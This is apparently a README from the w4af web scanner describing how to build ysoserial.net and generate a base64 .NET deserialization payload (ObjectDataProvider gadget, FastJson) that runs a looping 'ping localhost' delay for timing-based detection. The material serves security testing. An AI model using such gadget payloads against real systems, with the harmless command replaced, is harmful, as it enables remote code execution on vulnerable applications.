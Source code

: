## Introduction

Watch [this video](https://www.youtube.com/watch?v=ZBfBYoK_Wr0).

## Install the software

The ysoserial.net application only works in windows + visual studio.

You will have to install Windows, Visual Studio, and then get the
tool from: `git clone https://github.com/pwntester/ysoserial.net.git`

After building the tool you'll get a `ysoserial.exe`, now you're
ready to create some payloads.

## Creating payloads

Run this command to create the payload:

```
ysoserial.exe -o base64 -g ObjectDataProvider -f FastJson -c "FOR /L %A IN (0,1,77) do ping localhost -n 2"
```

Redirect the payload to a shared folder, so you can gain access to it
from Linux and then insert it into the `generator.py`.

Change the `77` number in the for loop in order to modify how much time to delay.

## Status

[These comments]()https://github.com/andresriancho/w4af/issues/16280#issuecomment-371280578)
show the status of the .NET payloads.

